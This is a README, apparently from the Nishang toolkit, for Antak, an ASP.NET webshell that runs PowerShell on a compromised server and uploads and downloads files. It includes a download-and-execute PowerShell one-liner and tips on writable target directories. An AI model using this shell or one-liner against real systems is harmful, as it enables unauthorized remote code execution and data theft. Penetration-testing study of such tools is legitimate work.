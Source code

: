 Antak is a webshell written in ASP.Net which utilizes powershell.
Antak is a part of Nishang and updates could be found here:
https://github.com/samratashok/nishang

Use this shell as a normal powershell console. Each command is executed in a new process, keep this in mind
while using commands (like changing current directory or running session aware scripts). 

Executing PowerShell scripts on the target - 

1. Paste the script in command textbox and click 'Encode and Execute'. A reasonably large script could be executed using this.

2. Use powershell one-liner (example below) for download & execute in the command box.
IEX ((New-Object Net.WebClient).DownloadString('URL to script here')); [Arguments here]

3. By uploading the script to the target and executing it.

4. Make the script a semi-colon separated one-liner.


Files can be uploaded and downloaded using the respective buttons.

Uploading a file - 
To upload a file you must mention the actual path on server (with write permissions) in command textbox. 
(OS temporary directory like C:\Windows\Temp may be writable.)
Then use Browse and Upload buttons to upload file to that path.

Downloading a file - 
To download a file enter the actual path on the server in command textbox.
Then click on Download button.


A detailed blog post on Antak could be found here
http://www.labofapenetrationtester.com/2014/06/introducing-antak.html

